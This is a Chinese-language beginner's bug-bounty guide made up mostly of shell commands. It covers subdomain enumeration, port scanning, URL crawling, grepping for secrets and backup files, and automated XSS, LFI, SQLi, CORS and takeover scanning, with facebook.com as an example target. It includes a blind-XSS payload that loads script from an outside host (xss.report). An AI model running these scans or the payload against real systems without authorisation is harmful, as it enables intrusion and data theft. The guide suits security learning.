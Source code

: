 <center>Bug Hunting</center>





[toc]









## Bug Hunting

> 初学者渗透。









### 1. 子域名收集

```shell
mkdir test
cd test

# 子域名1
subfinder -d facebook.com -all -recursive > subdomain1.txt

# crt.sh
sudo apt  install jq -y
curl -s "https://crt.sh/?q=%.example.com&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u > subdomain2.txt

# 合并
cat subdomain1.txt subdomain2.txt  | sort | uniq > subdomains.txt

```

> 子域名： [subfinder](https://github.com/projectdiscovery/subfinder) 
>
> 子域名： [crt.sh](https://github.com/crtsh)





### 2. 端口扫描

```shell
# 安装 为缺少 libpcap 开发库
sudo apt-get install libpcap-dev -y
go install -v github.com/projectdiscovery/naabu/v2/cmd/naabu@latest

# 使用
naabu -host hackerone.com

# 常用
naabu -list subdomains.txt -c 50 -nmap-cli 'nmap -sV -sC' -o naabu-full.txt

# 存活主机 httpx-tookit
sudo apt install httpx-toolkit
cat subdomains.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt
```

> naabu: 用 Go 编写的快速端口扫描程序，注重可靠性和简单性。[github](https://github.com/projectdiscovery/naabu)
>
> httpx: `httpx`是一款快速且用途广泛的 HTTP 工具包，允许使用[retryablehttp](https://github.com/projectdiscovery/retryablehttp-go)库运行多个探测。它旨在通过增加线程数量来保持结果的可靠性。   [github](https://github.com/projectdiscovery/httpx)

```shell
# 自动化工具： 用于查找 SQLi、XSS、LFi、OpenRedirect 的自动侦察工具  https://github.com/aungsanoo-usa/aungrecon

git clone https://github.com/aungsanoo-usa/aungrecon.git
cd aungrecon

chmod +x install.sh
chmod +x aungrecon.sh

./install.sh
./aungrecon.sh
```

> katana: 下一代爬行和蜘蛛框架  [github](https://github.com/projectdiscovery/katana)

```shell
go install github.com/projectdiscovery/katana/cmd/katana@latest

# 爬去文件
katana -u subdomains_alive.txt -d 5 -kf -jc -fx -ef woff,pdf,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt

# 查找配置文件
cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"

cat allurls.txt | grep -E ".php|.asp|.aspx|.jspx|.jsp" | grep '=' | sed 's/=.*/=/' | sort | uniq > bsqli.txt
```





### 3. xss 漏洞

> kxss:  [github](https://github.com/Emoe/kxss)
>
> gxss: [github](https://github.com/KathanP19/Gxss)

```shell
cat allurls.txt | Gxss | kxss | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > xss.txt
```





### 4. lfi & open_redirect

> lfi 漏洞和open_redirect漏洞
>
> gf: grep 的包装器，帮助你 grep 东西 [github](https://github.com/tomnomnom/gf)

```shell
go install github.com/tomnomnom/gf@latest

cat allurls.txt | gf or | sed 's/=.*/=/' | sort -u > open_redirect.txt

cat allurls.txt | gf lfi | sed 's/=.*/=/' | sort -u > lfi_output.txt

```

> 总结，找到一些可能存在漏洞的地方了。开始攻击了









### 5. 攻击

> loxs: 查找 SQLi、CRLF、XSS、LFi、OpenRedirect 的最佳工具  [github](https://github.com/coffinxp/loxs)
>
> 安装： [文章](/网络安全/渗透工具/24Loxs快速查找漏洞.md)

```shell
python3 loxs.py 

# 选择urls和攻击的payload
│1] LFi Scanner                                               │
│2] OR Scanner                                                │
│3] SQLi Scanner                                              │
│4] XSS Scanner                                               │
│5] CRLF Scanner  
```

> xss_scanner: [github.com](https://github.com/aungsanoo-usa/xss_scanner)  。xss扫描
>
> 安装看redeme.

```shell
在xss_scanner中：
# 查看存在xss
python3 xss_scanner.py -l /home/goer/hackerone/facebook/bsqli.txt -p xss.txt -o output.txt
```

> 查找敏感信息
>
> SecretFinder:  一个用于查找敏感数据  [github](https://github.com/m4ll0k/SecretFinder)

````shell
# js文件
cat allurls.txt | grep -E "\.js$" >> js.txt


# 敏感信息
git clone https://github.com/m4ll0k/SecretFinder.git secretfinder
cd secretfinder
python -m pip install -r requirements.txt or pip install -r requirements.txt
python3 SecretFinder.py


# 使用
python3 SecretFinder.py -i js.txt -o secret.txt
````

> 目录扫描

```shell
sudo apt install dirsearch

dirsearch  -u https://www.example.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json
```

> xss漏洞

```shell
# 工具 qurl & bxss
go install github.com/repejota/qurl/cmd/qurl@develop
go install -v github.com/ethicalhackingplayground/bxss/v2/cmd/bxss@latest

# subfinder
subfinder -d example.com | httpx-toolkit -silent |  katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/aunglat></script>' -parameters
```

> 子域名检测： subzy [github](https://github.com/PentestPad/subzy)

```shell
subzy run --targets subdomains.txt --verify_ssl
```

> CORS 错误配置扫描程序: [github](https://github.com/s0md3v/Corsy)

```shell
git clone https://github.com/s0md3v/Corsy.git

python3 corsy.py -i /home/goer/hackerone/facebook/subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"
```

> nuclei: Nuclei 是一款现代的高性能漏洞扫描程序，它利用基于 YAML 的简单模板。 [github](https://github.com/projectdiscovery/nuclei)
>
> nuclei-templates: 社区精心挑选的用于核心引擎的模板列表，用于查找应用程序中的安全漏洞。[github](https://github.com/projectdiscovery/nuclei-templates)
>
> priv8-Nuclei: 作者的一些模板。 [github](https://github.com/aungsanoo-usa/priv8-Nuclei)

```shell
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest

```

